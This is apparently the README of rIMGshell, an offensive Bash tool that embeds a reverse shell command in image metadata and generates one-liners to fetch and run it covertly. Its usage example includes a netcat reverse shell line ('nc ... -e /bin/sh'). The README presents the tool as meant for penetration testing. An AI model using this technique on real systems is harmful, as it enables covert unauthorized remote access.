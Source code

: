 # rIMGshell
[![Sponsor](https://img.shields.io/badge/Sponsor-%E2%9D%A4-red)](https://github.com/sponsors/git5loxosec) [![Kali Linux Compatible](https://img.shields.io/badge/Kali%20Linux-Compatible-brightgreen)](https://www.kali.org/)
 <img src="https://camo.githubusercontent.com/f25217d6db3b6cb603d9fb4a2b017a682aae3b1ec5c6ffab653f6cd31eceb73c/68747470733a2f2f696d672e736869656c64732e696f2f62616467652f446576656c6f7065642532306f6e2d6b616c692532306c696e75782d626c756576696f6c6574"> ![Language](https://img.shields.io/badge/Language-Bash-green.svg)
 ![License](https://img.shields.io/badge/License-MIT-blue.svg) 


<img src="https://github.com/git5loxosec/rIMGshell/blob/main/github_rimgshell1.png">
Clean image file no reverse shell.
<img src="https://github.com/git5loxosec/rIMGshell/blob/main/github_rimgshell2.png">
The reverse shell injection method used here wont affect the integrity of the image file.
<img src="https://github.com/git5loxosec/rIMGshell/blob/main/github_rimgshell3.png">
Connection established, mission accomplished!



# Description:

rIMGshell is a command-line tool for injecting a reverse shell command into an image and generating one-liner execution methods.

# How It Works:
rIMGshell takes a reverse shell command and an image file as input. It then injects the command into the image using metadata comments. After injection, it generates a one-liner execution method for retrieving and executing the injected command from a remote location.

# Features:
Covert Command Injection: Inject reverse shell commands into image files.
Multiple Execution Methods: Choose from various one-liner execution methods for retrieving and executing the injected command.
Versatile Compatibility: Works with common Linux command-line utilities such as exiftool, exiv2, identify, file, and jpeginfo.
Secure Communication: Execute commands remotely without revealing their presence in the image.

## Installation

1. Clone the repository:

   ```
   git clone https://github.com/git5loxosec/rIMGshell
   ```

2. Change to the project directory:

   ```
   cd rIMGshell
   ```

3. Make the script executable:

   ```
   chmod +x rIMGshell.sh
   ```

## Usage

```
./rIMGshell.sh [OPTIONS] <REVERSE_SHELL_COMMAND> <IMAGE_FILENAME>
```

- `[OPTIONS]` - Optional arguments.
- `<REVERSE_SHELL_COMMAND>` - The reverse shell command to inject.
- `<IMAGE_FILENAME>` - The name of the image file.

**Example:**

```
./rIMGshell.sh "nc 192.168.1.128 4444 -e /bin/sh" image.jpg
```

Note: Ensure that you have the required dependencies (e.g., exiftool, curl) installed on your system before using rIMGshell.

**Warning: Ethical and Responsible Use Only
rIMGshell is intended for legitimate and ethical purposes, such as penetration testing, cybersecurity assessments, and educational use. Unauthorized use of this tool for malicious activities is strictly prohibited and may have serious legal consequences. Ensure that you have proper authorization and adhere to all applicable laws and regulations before using rIMGshell.**


## License


This project is licensed under the [MIT License](LICENSE).
